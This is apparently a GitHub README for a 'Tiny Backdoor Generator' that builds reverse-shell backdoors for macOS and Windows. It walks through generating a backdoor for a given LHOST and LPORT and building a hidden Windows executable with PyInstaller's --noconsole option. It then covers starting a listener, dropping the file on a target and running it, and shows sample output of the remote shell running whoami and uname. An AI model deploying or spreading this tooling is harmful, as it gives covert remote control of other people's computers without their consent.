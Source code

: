 # Tiny-Backdoor-Generator

Tiny Backdoor-Generator suitable for Macos/Windows 

---

## Author

[![Linkedin: Thierry Khamphousone](https://img.shields.io/badge/-Thierry_Khamphousone-blue?style=flat-square&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/tkhamphousone/)](https://www.linkedin.com/in/tkhamphousone)

---

<br/>

## Setup

```sh
$ git clone https://github.com/Yulypso/Backdoor-Generator.git
$ cd Backdoor-Generator/src
```

## Use case

1. Generate a backdoor for LHOST=172.16.198.128 and LPORT=7777 

- MacOS
```sh
$ ./generate_backdoor 172.16.198.128 7777
[+] Backdoor generated: ../out/2022-11-22_20:40:23_backdoor
```

- Windows
```bat
:: Replace ${LHOST} ${LPORT} and run the following command: 
python -m PyInstaller backdoor_template.py --onefile --noconsole --name "backdoor"
```


2. Start server 

```sh
$ python3 server.py --lhost 172.16.198.128 --lport 7777
[+] Running server 172.16.198.128:7777
[+] Listening for the incoming connections ...
```

3. Drop the backdoor file and run it from the target


4. Get the shell
```sh
[+] Target connected from: ('172.16.198.1', 58859)
[help] Type exit command to quit

> Shell~('172.16.198.1', 59902): uname -a
Darwin Yulypso.lan 22.1.0 Darwin Kernel Version 22.1.0: Sun Oct  9 20:14:54 PDT 2022; root:xnu-8792.41.9~2/RELEASE_X86_64 x86_64

> Shell~('172.16.198.1', 59902): whoami
yulypso

> Shell~('172.16.198.1', 59902): exit
```